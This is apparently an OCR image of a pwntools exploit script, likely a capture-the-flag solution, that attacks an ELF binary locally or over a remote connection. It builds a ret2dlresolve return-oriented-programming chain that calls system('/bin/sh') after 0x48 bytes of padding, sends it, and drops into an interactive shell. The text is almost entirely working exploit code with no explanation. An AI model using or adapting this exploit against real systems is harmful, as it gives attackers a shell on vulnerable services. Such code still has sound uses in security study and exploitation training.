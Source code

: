 ```python
            context.binary = elf

            target = (
                gdb.debug(
                    [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
                )
                if debug
                else process([elf.path] + (argv or []), env=envp)
            )
        else:
            target = remote(HOST, PORT)
        yield target
    finally:
        if target:
            target.close()


def construct_payload(padding_to_ret, first_read_size):
    dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
    fake_structure = dlresolve.payload

    rop = ROP(elf)

    rop.read(0, dlresolve.data_addr, len(fake_structure))
    rop.raw(rop.ret.address)
    rop.ret2dlresolve(dlresolve)

    log.success(rop.dump())

    raw_rop = rop.chain()

    return flat({padding_to_ret: raw_rop, first_read_size: fake_structure})


def attack(target):
    try:
        payload = construct_payload(0x48, 0xC8)

        target.sendline(payload)
        target.interactive()
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        with launch(debug=False) as target:
            attack(target)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```
